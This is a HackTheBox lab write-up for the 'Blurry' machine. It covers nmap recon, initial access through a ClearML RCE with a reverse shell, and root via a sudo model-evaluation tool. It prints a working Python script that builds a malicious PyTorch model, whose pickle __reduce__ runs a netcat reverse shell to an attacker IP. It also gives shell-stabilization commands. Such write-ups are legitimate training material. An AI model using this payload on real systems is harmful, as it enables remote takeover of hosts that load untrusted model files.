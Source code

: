 ```yaml
---
title: Blurry
tags:
  - HackTheBox
  - Medium
  - ClearML
  - CVE
  - Python-Vulnerability
  - Linux
---
```

![](Pasted%20image%2020240904165148.png)
## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.19 blurry.htb" | sudo tee -a /etc/hosts
```

Then I performed an Nmap scan:

```shell
nmap -sC -T4 -p- blurry.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http
|_http-title: ClearML
```

As seen, a redirect is done to `app.blurry.htb`, so I added to the hosts file. Afterwards I decided to take a look at the webpage:

![](Pasted%20image%2020240904170144.png)

## Weaponization

I decided to search for "*ClearML cve*" on the Internet and found the following RCE: [CVE-2024-24590](https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit)

## Exploitation

First, I logged in as gitblanc, and look up for projects. I noticed a project called **Black Swan**:

![](Pasted%20image%2020240904171314.png)

- I installed ClearML on terminal with: `sudo pip install clearml`
- Then I ran the ClearML setup script: `clearml-init`
- I generated new credentials for configuration:

![](Pasted%20image%2020240904174414.png)

![](Pasted%20image%2020240904172733.png)

- I got some errors related to subdomain `api.blurry.htb` and `files.blurry.htb`, so I added the new domains.

> We've got a reverse shell :D

![](Pasted%20image%2020240904174859.png)

Stabilize it with:

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
# then
export TERM=xterm
# Press -> Ctrl + Z
stty raw -echo; fg
```

> We've got user flag :D

![](Pasted%20image%2020240904175101.png)

## Privilege Escalation

I'll upload linpeas and run it:

![](Pasted%20image%2020240904175417.png)

![](Pasted%20image%2020240904175603.png)

If we run `sudo -l`:

![](Pasted%20image%2020240904180509.png)

So I investigated a bit and found this script to gain root privileges by generating a malicious model [pytorch-script](https://github.com/v4resk/red-book/blob/main/redteam/privilege-escalation/linux/script-exploits/python/pytorch-models-pth-files-code-execution.md)

- I had to install **torch**: `sudo pip3 install torch`

```python
# generate_model.py
import torch
import torch.nn as nn
import os

class EvilModel(nn.Module):
	def __init__(self):
		super(EvilModel, self).__init__()
		self.dense = nn.Linear(10, 50)
	
	def forward(self, evil):
		return self.dense(evil)
	
	def __reduce__(self):
		# Inject OS command.
		cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.146 777 >/tmp/f"
		return os.system, (cmd,)

# Save the model
evil_model = EvilModel()
torch.save(evil_model, 'evil.pth')
```

I executed the previous script on my machine, and uploaded 'evil.pth' to the victim machine. Then I moved it to `/modules` and executed:

```shell
sudo -u root /usr/bin/evaluate_model /models/evil.pth
```

> We are root now and got root flag! 

![](Pasted%20image%2020240904192225.png)

==Machine pwned==






